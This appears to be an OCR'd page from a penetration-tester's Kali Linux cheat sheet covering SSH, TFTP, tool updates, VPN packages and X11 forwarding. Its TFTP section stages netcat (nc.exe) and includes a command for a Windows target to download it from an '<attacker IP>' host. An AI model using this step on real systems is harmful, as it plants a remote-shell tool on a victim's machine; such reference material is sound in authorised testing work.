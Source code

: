 ### SSH
ssh-keygen                                       Setup new keys
/etc/ssh/sshd_config                             Config file
service ssh start                                Start ssh
netstat -antp | grep ssh                         Verify the service is running
update-rc.d ssh enable                           Enable ssh to start at boot time
update-rc.d ssh disable                          Disable ssh from starting at boot time

#TFTP
mkdir /tftp                                      Create a new home folder for tftp
atftpd --daemon --port 69 /tftp                  Start tftp and assign home folder
netstat -anup | grep atftp                       Verify the service is running
cp /usr/share/windows-binaries/nc.exe /tftp/
tftp -i <attacker IP> get nc.exe                 Run from Windows
------------------------------------------------------------------------------------------------------

### Update procedure

update
Burp Suite Pro
DbVisualizer
Iceweasel plugins
Nessus                /opt/nessus/sbin/nessus-update-plugins
Nexpose
------------------------------------------------------------------------------------------------------

### VPN

apt-get install network-manager-iodine network-manager-iodine-gnome
apt-get install network-manager-openconnect network-manager-openconnect-gnome
apt-get install network-manager-openvpn network-manager-openvpn-gnome
apt-get install network-manager-pptp network-manager-pptp-gnome
apt-get install network-manager-strongswan
apt-get install network-manager-vpnc network-manager-vpnc-gnome
/etc/init.d/network-manager restart

### Thanks to Robert Clowser for the bug fix!
nano /etc/network/interfaces
Remove the last two lines egarding eth0.
Reboot
------------------------------------------------------------------------------------------------------

### X11

nano /etc/ssh/ssh_config
Uncomment ForwardX11, change to yes
Uncomment ForwardX11Trusted

service ssh restart

OS X
  ssh -X root@<targetIP>
  Start app that requires a GUI.
  iceweasel &
------------------------------------------------------------------------------------------------------
